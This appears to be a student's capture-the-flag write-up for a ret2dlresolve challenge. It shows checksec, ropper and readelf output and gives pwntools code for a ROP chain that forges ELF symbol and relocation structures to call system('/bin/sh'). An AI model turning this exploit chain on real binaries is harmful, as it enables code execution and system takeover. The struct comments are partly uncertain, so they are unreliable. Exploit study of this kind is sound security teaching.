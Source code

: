 # Ret2dlresolve:Solution

The binary is compiled with NX and Partial RELRO
```
pwn checksec chal.bin 
[*] '/root/workspace/vuln/ret2dlresolve/chal/chal.bin'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

and is dynamically linked to GLIBC.
```
ldd chal.bin
    linux-vdso.so.1 (0x00007ffd4a0d8000)
    libc.so.6 => /lib64/libc.so.6 (0x00007ff26e800000)
    /lib64/ld-linux-x86-64.so.2 (0x00007ff26eb17000)\
```

We need to populate rdi but the binary doesn't have any pop rdi gadgets. Using ropper we can find a gadget that moves the value of r10 into rdi and a gadget that pops r10.

```
ropper -f ./chal.bin --nocolor | grep rdi
0x0000000000401190: mov rdi, r10; ret; 
and
ropper -f ./chal.bin --nocolor | grep r10
0x000000000040118d: pop r10; ret; 
```

Then we need to get some existing structures out of the binary.
```
readelf --sections ./chal.bin | egrep "Name|.rela.plt|.dynsym|.dynstr"
   [Nr] Name              Type             Address           Offset
   [ 6] .dynsym           DYNSYM           00000000004003d0  000003d0
   [ 7] .dynstr           STRTAB           00000000004004a8  000004a8
   [11] .rela.plt         RELA             00000000004005d0  000005d0
```

We can use vmmap in pwndbg to get the address of memory that is rw and then get a number in the range that is divisible by 24.

```
0x404e10
```

Using this we can create our fake symtab, rel structures and args, as well as calculate the fields for the fake structs. 

Next we need to read our payload into writeable memory.
```
chain = cyclic(16)                 # padding
chain += p64(ret)                  # ret (align stack)

chain += p64(pop_r10)              # pop r10, ret

chain += p64(writeable_mem)        
chain += p64(mv_rdi)

chain += p64(e.plt['gets'])    
```

Then we mov the address of args into rdi, call init_plt.
```
chain += p64(pop_r10)              # pop r10, ret
chain += p64(fake_args)            
chain += p64(mv_rdi)
chain += p64(init_plt)	           # init_plt
chain += p64(dl_resolve_index)     # 0x310 (fake_rel - jmp_rel)/size of rel struct
```

Finally we build our payload, send the chain.
```
# Symbol Name
payload = b'system\x00\x00'	   # st_name (symbol name)
payload += p64(0)                  # st_info (symbol type and handling)
payload += p64(0)                  # st_other (symbol visibiliyt)

# dont change section vvvv

# Elf64 Symbol Struct
payload += p64(st_shndex)          # st_shndex (section index) (?)
payload += p64(0)                  # st_value (symbol value)
payload += p64(0)                  # st_size (symbol size)
payload += p64(0)                  # padding



# Elf64_Rel Struct
payload += p64(writeable_mem)      # r_offset (address)
payload += p64(r_info)             # r_info   (reloc type and index) (?)
payload += p64(0)                  # padding

# Arguments
payload += b'/bin/sh\0'            # /bin/sh

print(payload)

p.sendline(payload)
```

We have our flag!
```
flag{tH4ts_t43_RETurn_2URsELF}
```

Resources
* Class slides
* Demo solve script
* Louie
